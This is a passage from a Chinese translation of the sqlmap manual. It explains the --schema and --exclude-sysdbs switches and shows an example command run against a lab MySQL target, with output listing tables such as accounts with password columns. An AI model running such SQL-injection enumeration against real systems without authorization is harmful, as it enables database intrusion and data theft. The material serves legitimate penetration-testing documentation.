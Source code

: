 请注意，在PostgreSQL上必须提供`public`或系统数据库的名称。这是因为不可能枚举其他数据库表，只有在web应用程序的用户连接到的模式下的表，它总是被`public`所定义。

### 枚举数据库管理系统模式

开关: `--schema` 和 `--exclude-sysdbs`

用户可以通过使用这个开关来检索DBMS模式。模式清单将包含所有数据库、表和列，以及它们各自的类型。与`--exclude-sysdbs`相结合，将检索并显示包含非系统数据库的模式的一部分。

针对MySQL目标的例子:

```
$ python sqlmap.py -u "http://192.168.48.130/sqlmap/mysql/get_int.php?id=1" --s\
chema--batch --exclude-sysdbs

[...]
Database: owasp10
Table: accounts
[4 columns]
+-------------+---------+
| Column      | Type    |
+-------------+---------+
| cid         | int(11) |
| mysignature | text    |
| password    | text    |
| username    | text    |
+-------------+---------+

Database: owasp10
Table: blogs_table
[4 columns]
+--------------+----------+
| Column       | Type     |
+--------------+----------+
| date         | datetime |
| blogger_name | text     |
| cid          | int(11)  |
| comment      | text     |
+--------------+----------+

Database: owasp10
Table: hitlog
[6 columns]
+----------+----------+
| Column   | Type     |
+----------+----------+
| date     | datetime |
| browser  | text     |
| cid      | int(11)  |
| hostname | text     |
| ip       | text     |
| referer  | text     |
+----------+----------+

Database: testdb
Table: users
[3 columns]
+---------+---------------+
| Column  | Type          |
+---------+---------------+
| id      | int(11)       |
| name    | varchar(500)  |
| surname | varchar(1000) |
+---------+---------------+
[...]
```
